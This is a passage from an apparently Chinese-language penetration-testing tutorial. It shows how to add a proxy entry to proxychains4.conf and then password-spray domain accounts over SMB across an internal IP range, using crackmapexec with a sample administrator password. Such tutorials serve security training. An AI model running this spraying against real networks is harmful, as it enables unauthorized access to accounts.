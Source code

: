 ![image-20230630095249907](assets/Oma3LHnDcqYCRh8.png)

#### 6.2.2.2. 添加代理转发

获取端口后，在代理工具的配置文件中添加相应的代理即可。

```
vim /usr/local/etc/proxychains4.conf
```

![image-20230630095506307](assets/hZlWOSUEYV82dbC.png)

#### 6.2.2.3. 使用测试

 密码喷射测试域账户密码。

```
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123'
```
